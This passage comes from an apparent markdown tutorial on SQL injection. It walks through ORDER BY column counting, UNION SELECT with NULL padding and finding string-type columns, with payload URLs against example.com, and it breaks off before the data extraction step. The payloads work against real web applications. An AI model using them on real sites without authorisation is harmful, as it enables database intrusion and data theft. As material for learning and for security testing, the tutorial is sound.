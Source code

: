 If we got 500 server error that means there is only one column 
```
https://www.example.com/products?id=2' ORDER BY 3 -- -
https://www.example.com/products?id=2' ORDER BY 4 -- -


```

---

## UNION Based Injection

We can try Union clause and use another SELECT statement and get information

**UNION will combine only results of SELECT statements .**

## Determining number of columns using UNION and SELECT

We can determine number of columns the backend sql query is returning using UNION also .
First we select one NULL and if its got error that means there is column mismatch between backend query and our select query .
Then we increase NULL and we continue 
whenever we get 200 response that means our number of NULL's are equal to the number of columns backend query is returning

```
https://www.example.com/products?id=2' UNION SELECT NULL -- -
https://www.example.com/products?id=2' UNION SELECT NULL,NULL from dual -- -
https://www.example.com/products?id=2' UNION SELECT NULL,NULL,NULL -- - 
and so on ...
```

--- 

## Determining VARCHAR column using UNION and SELECT

Now , we got number of columns backend query is returning . 
we need to determine which column returns string type .
instead of NULL we put a string and test each column 

Suppose we found that there are 4 columns
```
https://www.example.com/products?id=2' UNION SELECT 'a',NULL,NULL,NULL -- -
https://www.example.com/products?id=2' UNION SELECT NULL,'a',NULL,NULL from dual -- -
https://www.example.com/products?id=2' UNION SELECT NULL,NULL,'a',NULL -- -
https://www.example.com/products?id=2' UNION SELECT NULL,NULL,NULL,'a' -- -
```
if any one got 200 response that means that respective column is string type

--- 

## Getting Information from string column

We determined say 2nd column is string type
we can get sql version and other information 
